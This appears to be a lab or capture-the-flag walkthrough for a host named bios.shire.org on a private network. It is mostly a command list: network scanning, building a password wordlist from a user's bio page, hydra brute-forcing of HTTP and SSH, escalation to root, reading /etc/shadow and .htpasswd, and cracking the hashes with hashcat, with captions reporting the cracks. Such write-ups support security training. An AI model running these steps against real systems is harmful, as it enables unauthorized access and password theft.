

# Target 1: bios.shire.org

## Target 1.1: 10.0.5.21

<pre><code>sudo nmap 10.0.5.0/24 -p 53 --open
nslookup 10.0.5.21 10.0.5.22
# host is bios.shire.org
cewl http://10.0.5.21/bios/pippin -m 4 | egrep -v 'and|or|the' | egrep '[A-Z]' >> pippinbio.txt
nano pippinbio.txt
rsmangler -m 9 -x 12 -rp -f pippinbio.txt -o pippinmangled.txt
<strong>wc -l pippinmangled.txt
</strong><strong>nmap -sV 10.0.5.21
</strong>dirb http://10.0.5.21 -wfr
hydra -l pippin -P pippinmangled.txt -s 80 -f 10.0.5.21 http-get /admin/
hydra -l peregrin.took -P pippinmangled.txt 10.0.5.21 -t 4 ssh
ssh peregrin.took@10.0.5.21
<strong>[peregrin.took@bios]$ sudo -i
</strong><strong>[root@bios]$ cat /etc/shadow
</strong><strong># copy hashes into text file on Kali host
</strong><strong>cat /etc/httpd/conf.d/admin.conf
</strong><strong>cat /etc/httpd/.htpasswd
</strong><strong># copy hashes into another text file on Kali host
</strong><strong>hashcat -m1600 bioshttphashes.txt -w4 -a0 pippinmangled.txt
</strong><strong>hashcat -m1800 bios.txt -w4 -a0 /usr/share/wordlists/rockyou.txt
</strong></code></pre>

<figure><figcaption>
nmap results for 10.0.5.21
</figcaption></figure>

<figure><figcaption>
dirb results for http://10.0.5.21
</figcaption></figure>

<figure><figcaption>
successful crack of pippin HTTP
</figcaption></figure>

<figure><figcaption>
successful crack of pippin SSH
</figcaption></figure>

<figure><figcaption>
successful access and elevation on 10.0.5.21
</figcaption></figure>

<figure><figcaption>
where to find http hashes and the http hashes for 10.0.5.21
</figcaption></figure>

<figure><figcaption>
successful crack of 2 HTTP passwords
</figcaption></figure>

<figure><figcaption>
successful crack of 1 HTTP password
</figcaption></figure>

<figure><figcaption>
successful crack of 1 HTTP password
</figcaption></figure>

<figure><figcaption>
successful crack of 1 bios password
</figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
